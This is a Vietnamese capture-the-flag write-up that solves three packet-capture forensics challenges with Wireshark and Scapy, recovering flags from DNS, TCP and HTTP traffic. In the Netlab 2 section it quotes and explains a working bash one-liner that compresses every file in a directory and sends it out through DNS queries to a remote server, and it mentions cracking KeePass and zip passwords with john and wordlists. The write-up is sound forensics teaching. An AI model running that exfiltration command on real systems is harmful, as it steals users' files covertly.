


# Writeup Luyện tập dùng Scapy

### Netlab 2

Mở Wireshark lên, ta thấy file sẽ như này.


Ta thấy các Protocol DNS khá là lạ, ta thấy các Query của DNS nhìn như là Base64 zị á.


Nhưng mà để ý kỹ thì Base64 không có các ký tự ngoặc nhọn, ta tìm thêm xem có manh mối nào nữa không.

Ta sử dụng Display Filter với lệnh ``not dns`` để lọc ra các packet không phải là DNS.


Ở dòng thứ 7, ta thấy 1 HTTP mà có 1 đoạn code, ta thử follow coi sao


Sau khi follow HTTP, thì ta được đoạn code như sau:

```
for f in $(ls .); do s=4;b=50;c=0; for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi; done ); do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; done ; done
```

Theo như Bard nói thì:

- ``for f in $(ls .); do``: Dòng này lặp qua tất cả các tệp trong thư mục hiện tại và gán tên tệp cho biến f. Ví dụ: nếu thư mục hiện tại chứa các tệp file1.txt, file2.txt, và file3.txt, thì vòng lặp sẽ thực hiện các lần lặp sau:

  - f = file1.txt
  - f = file2.txt
  - f = file3.txt
- ``s=4;b=50;c=0;``: Dòng này gán biến thôi =))
- ```
  for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");do
  if [[ "$c" -lt "$s"  ]]; then
      echo -ne "$i-.";
      c=$(($c+1));
  else
      echo -ne "\n$i-.";
      c=1;
  fi;
  done ); 
  ```
  Vòng lặp này là lặp qua các đoạn dữ liệu trong tệp ở vòng lặp ngoài.
  Lệnh ``gzip -c &f`` được sử dụng để nén tệp f thành 1 luồng nhị phân, sau đó sẽ mã hóa base64. Lệnh ``sed "s/.\{$b\}/&\n/g"`` được sử dụng để chia dữ liệu được mã hóa thành base64 thành các đoạn 50 ký tự.
  Ngoài ra, dòng ``if [[ "$c" -lt "$s"  ]]; then`` thì nếu biến c < s thì các block 50 ký tự base64 sẽ kết thúc bằng 2 ký tự "-.", còn nếu c == s == 4 thì sẽ xuống dòng
  Thử đoạn code này sẽ hiểu thêm

  ```
  for f in *; do
  s=4
  b=50
  c=0
    for r in $(gzip -c "$f" | base64 -w0 | sed "s/.\{$b\}/&\n/g"); do
      if [ "$c" -lt "$s" ]; then
        echo -ne "$r-."
        c=$((c + 1))
      else
        echo -ne "\n$r-."
        c=1
      fi
    done
  echo
  done
  ```

- ```
  do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; done ;
  ```
  Các hàm trong đoạn code đó như sau:
  - dig: Là một công cụ dòng lệnh được sử dụng để truy vấn thông tin DNS.

  - +tries=1: Xác định số lần thử nghiệm trước khi dừng lại. Trong trường hợp này, được đặt là 1 lần.
  - +timeout=1: Đặt thời gian chờ cho mỗi truy vấn là 1 giây.
  - +noidnin: Tắt việc chuyển đổi tên miền ngược.
  - +noidnout: Tắt việc chuyển đổi tên miền xuôi.
  - @10.2.32.72 chính là máy chủ DNS cụ thể để truy vấn đến
  - Sau đó, các mã base64 ban nãy, sẽ thay '+' -> '}', '/'->'{', sau đó sẽ mã hóa base58


Mình sẽ truy vấn các DNSQR,replace các dấu chấm và sẽ split các dấu '-' vì dạng nó sẽ như thế này
```
UIS80eOnNp9Ue60V47LgUjWm9lq82J8d{AF}}Yjdpwp{9Ygham-.zOtAu{ExZjDlwLE4DNJtuSDEiEyQhQY{3i74ZH5VFE1LakVZGD-.KAzbUv97hNslwiZAQrGC27eSY1dL3FFXfQM9ROVOV1TMnm8B{B-.HGrC2jwSY4xyeyzx1wPExmB6xCujdHZuroiCFj1DWjDAXiqIdF-.2x9kyYFcUyDeC2c65.
```

Khi b58decode các phần từ cuối cùng sau khi split, thì ta thấy có các file là blueteam.bmp, discord.png, Flag.kdbx, **gaixinh.jpg**, kcsc.png nên là mình sẽ thử lấy 4 file thui =)))

```
def process_packet(packet):
    result = ""
    gaixinh, flag, blueteam, kcsc = "", "", "", ""

    if packet.haslayer(DNS):
        dns_packet = packet.getlayer(DNS)
        if dns_packet.haslayer(DNSQR):
            query = dns_packet[DNSQR].qname.decode()
            if query is not None:
                tmp = query.replace(".", "")
                tmp = tmp.split("-")
                try:
                    form = b58decode(tmp[-1])
                    print(form)
                expect:
                  pass
packets = rdpcap('netlab2/netlab2.pcap')
for packet in packets:
  process_packet(packet)
```

Mình cũng chưa hiểu sao byte của các file lại là các phần tử đầu sau khi split, cái này mình sẽ tìm hiểu sau

Sau đó mình sẽ cộng dồn các byte của các file lại, thay đổi các ký tự bị thay thế là '}' -> '+', '{' -> '/', decode base64, sau đó đóng thành zip.

```
import base64
from base58 import b58decode
from scapy.all import *


def process_packet(packet):
    result = ""
    gaixinh, flag, blueteam, kcsc = "", "", "", ""

    if packet.haslayer(DNS):
        dns_packet = packet.getlayer(DNS)
        if dns_packet.haslayer(DNSQR):
            query = dns_packet[DNSQR].qname.decode()
            if query is not None:
                tmp = query.replace(".", "")
                tmp = tmp.split("-")
                try:
                    form = b58decode(tmp[-1])
                    print(form)
                    if form == b"gaixinh.jpg\n":
                        tmp[-1] = ""
                        for i in tmp:
                            gaixinh += i.replace(".", "")

                    if form == b'Flag.kdbx\n':
                        tmp[-1] = ""
                        for i in tmp:
                            flag += i.replace(".", "")

                    if form == b'blueteam.bmp\n':
                        tmp[-1] = ""
                        for i in tmp:
                            blueteam += i.replace(".", "")

                    if form == b'kcsc.png\n':
                        tmp[-1] = ""
                        for i in tmp:
                            kcsc += i.replace(".", "")
                except:
                    pass
    return gaixinh, flag, blueteam, kcsc


packets = rdpcap('netlab2/netlab2.pcap')

gaixinh, flag, blue, kcsc = "", "", "", ""
for packet in packets:
    a, b, c, d = process_packet(packet)
    gaixinh += a
    flag += b
    blue += c
    kcsc += d

gaixinh = gaixinh.replace("}","+").replace("{","/")
flag = flag.replace("}","+").replace("{","/")
blue = blue.replace("}","+").replace("{","/")
kcsc = kcsc.replace("}","+").replace("{","/")

gaixinh = base64.b64decode(gaixinh)
with open ("unzip/gaixinh.zip", "wb") as f:
    f.write(bytearray(gaixinh))

flag = base64.b64decode(flag)
with open ("unzip/flag.zip", "wb") as f:
    f.write(bytearray(flag))

blue = base64.b64decode(blue)
with open ("unzip/blue.zip", "wb") as f:
    f.write(bytearray(blue))

kcsc = base64.b64decode(kcsc)
with open ("unzip/kcsc.zip", "wb") as f:
    f.write(bytearray(kcsc))
```

Mình dùng Winrar để unzip thì mấy file kia cũng bình thường thôi, hơi thất vọng tí, còn file Flag.kdbx thì đòi mật khẩu nha


Thế nên mình sẽ dùng john để crack




Giờ nhập ``iloveyou`` vào thôi

Mình mở lên và thu được flag


**Flag: Flag{NetLab2_DNS_3xf1ltr4t10n_15_5t3al7hy}**


### Netlab 5

Mở wireshark lên, ta thấy các packet TCP rất chi là lạ lun á


Ở các segment data nó đều là các ký tự chữ, thế nên mình sẽ dùng scapy để lấy ra các chữ này

```
from scapy.all import *

def process_packet(packet):
    result = ""
    if packet.haslayer(TCP):
        tcp_packet = packet.getlayer(TCP)
        if tcp_packet.haslayer(Raw):
            data = packet.getlayer(TCP)[Raw].load
            try:
                data = data.decode()
                result += data
            except UnicodeDecodeError:
                pass
    return result

packets = rdpcap('netlab5/netlab5.pcap')

flag = ""
for packet in packets:
    flag += (process_packet(packet))
print(flag.replace("\n",""))
```

Run thì thu được văn bản như này
```
I miss the days when life was so simple Felt like the glass was always half full Where did that go? And every second with you was so special Back when we didn't fear the unknowns But that was long ago Who can say where the path will go? Philosophers guess but they just don't know Maybe that's why We had our head in the clouds Thought we had it all figured out Planning to fly away To escape everything on the ground But like a plane up in space We slowly drifted away And every plan that we made And dream that we chased Are just memories now They're just memories successwrong But I know that we landed where we both belong (Where we both belong) I just wish we weren't scared to say That there's expiration dates on the friends you make As hard as that may sound Who can say where the path will go? Philosophers guess but they just don't know Maybe that's why We had our head in the clouds Thought we had it all figured out Planning to fly away To escape everything on the ground But like a plane up in space We slowly drifted away And every plan that we made And dream that we chased Are just memories now They're just memories now Who can say where the path will go? (Where the path will go? Where the path will go?) Philosophers guess but they just don't know (But they just don't know)|||||||||||||TCP SYN flood (a.k.a. SYN flood) is a type of Distributed Denial of Service (DDoS) attack that exploits part of the normal TCP three-way handshake to consume resources on YWxlcnQoJ0ZsYWd7TmV0TGFiNV9TWU5fRkwwb2RfYjRuTjNkfScp the targeted server and render it unresponsive.  Essentially, with SYN flood DDoS, the offender sends TCP connection requests faster than the targeted machine can process Connection: closeStatus: online GMTT / HTTP/1.1
```

Thấy Base644, decode ra là thu được cái này ``alert('Flag{NetLab5_SYN_FL0od_b4nN3d}')``

**Flag: Flag{NetLab5_SYN_FL0od_b4nN3d}**

### GO DEEP

Link của chall này [HERE](https://ctf.viblo.asia/puzzles/go-deep-teqka2u0hn4)

Mở wireshark thì như này


Mình thử follow TCP coi sao nha

Tới stream 19 thì mình thấy hiện tượng lạ


Đây là 1 file zip, mình sẽ Export Object HTTP và unzip nha


Unzip ra thì còn 1 file pcap ở trong nữa =))).
Mở file đó ra thuii

Tất cả tại TCP nên là mình sẽ follow nó lần nữa


Tới stream 26 thì thu được base64, decode thì được như này


Mình sẽ lưu nó lại thành 1 file txt nha

Tới Stream 30, thì lại thấy 1 file zip nữa, nên là mình sẽ Export tiếp


Rất nhiều file nên mình sẽ ưu tiên tìm file zip


Mình sẽ lưu cả 2 file coi có cái gì, thử unzip file vLu kia thì dùng hết các công cụ unzip ròi mà không được, nên mình thử unzip file còn lại.


Có mật khẩu rồi, mà ban nãy mình có thu được 1 danh sách decode từ base64, thế nên mình sẽ thử wordlist đó trước khi dùng rockyou nha



Thành công, mình unzip thì thu được 1 file html, thử dùng strings lọc coi sao.


Tadaaaa, đã thu được flag

**Flag: Flag{Happy_F0ren3ics_0202}**
